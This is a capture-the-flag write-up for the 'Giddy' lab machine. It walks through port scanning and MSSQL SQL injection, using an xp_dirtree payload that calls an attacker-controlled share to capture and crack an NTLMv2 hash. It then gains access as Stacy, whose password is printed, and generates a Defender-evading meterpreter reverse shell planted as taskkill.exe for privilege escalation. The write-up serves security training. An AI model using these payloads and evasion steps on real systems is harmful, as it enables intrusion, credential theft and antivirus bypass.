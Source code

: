 # Giddy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.140 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 10:00 EDT
Nmap scan report for 10.129.96.140
Host is up (0.0083s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

Both RDP and WinRM are accessible on this machine, which is new.&#x20;

### SQLI --> Stacy Shell

Port 80 just shows a cute image:

<figure><img src="../../../.gitbook/assets/image (657).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on this, and found 2 directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.96.140 -t 100 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.140
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/08 10:02:08 Starting gobuster in directory enumeration mode
===============================================================
/remote               (Status: 302) [Size: 157] [--> /Remote/default.aspx?ReturnUrl=%2fremote]
/mvc                  (Status: 301) [Size: 148] [--> http://10.129.96.140/mvc/]
```

Visiting it reveals a Windows Powershell Web Access page:

<figure><img src="../../../.gitbook/assets/image (507) (2).png" alt=""><figcaption></figcaption></figure>

The MVC site reveals some online store:

<figure><img src="../../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

When products are viewed, it loads this URL:

```
http://10.129.96.140/mvc/Product.aspx?ProductSubCategoryId=18
```

If we replace the number with a `'` character, a lot of SQL errors are returned:

<figure><img src="../../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to SQL injection. Googling any of the errors here reveals that this is MSSQL, which we can actually get RCE from through `xp_cmdshell`.&#x20;

```sql
2; EXEC master ..xp_dirtree '\\10.10.14.13\share'; --
```

We can start `responder` and intercept the response by sending the above command:

<figure><img src="../../../.gitbook/assets/image (432) (2).png" alt=""><figcaption></figcaption></figure>

Then we can crack this hash easily using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)     
1g 0:00:00:00 DONE (2023-05-08 10:10) 1.020g/s 2744Kp/s 2744Kc/s 2744KC/s xabat..x6forever
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

By right, this machine came our before `evil-winrm`, so the intentional route is to use the Remote Powershell Web Access to download and execute a reverse shell. I did it the `evil-winrm` way.

<figure><img src="../../../.gitbook/assets/image (7) (4) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Unifivideo

Within the Documents directory, there's one folder present:

```
*Evil-WinRM* PS C:\Users\Stacy\documents> dir


    Directory: C:\Users\Stacy\documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo

*Evil-WinRM* PS C:\Users\Stacy\documents> type unifivideo
stop
```

Also, we can enumerate and see that Windows Defender is enabled for this machine, meaning any payload we use has to be obfuscated and encoded.&#x20;

```
*Evil-WinRM* PS C:\Users\Stacy\documents> cmd.exe /c "sc query windefend"

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

So we cannot run WinPEAS on this machine too. I decided to check if the Powershell history files were present still, because it could contain some good information, and it did exist:

```
*Evil-WinRM* PS C:\Users\Stacy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net stop unifivideoservice
$ExecutionContext.SessionState.LanguageMode
Stop-Service -Name Unifivideoservice -Force
Get-Service -Name Unifivideoservice
whoami
Get-Service -ServiceName UniFiVideoService
```

Now we can exploit this.&#x20;

{% embed url="https://www.exploit-db.com/exploits/43390" %}

We need to create a reverse shell file that would bypass Windows Defender. I was a bit lazy, so I used `msfconsole` to generate this:

```
use evasion/windows/windows_defender_exe
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
[+] OFVDGEyW.exe stored at /home/kali/.msf4/local/OFVDGEyW.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
```

Afterwards, we just need to transfer this reverse shell over and name it as `taskkill.exe` within `C:\programdata\unifi-video` and then run the `stop-service -name Unifivideoservice` command.

<figure><img src="../../../.gitbook/assets/image (633) (1).png" alt=""><figcaption></figcaption></figure>

Then, we would get a meterpreter shell on the listener:

<figure><img src="../../../.gitbook/assets/image (642) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
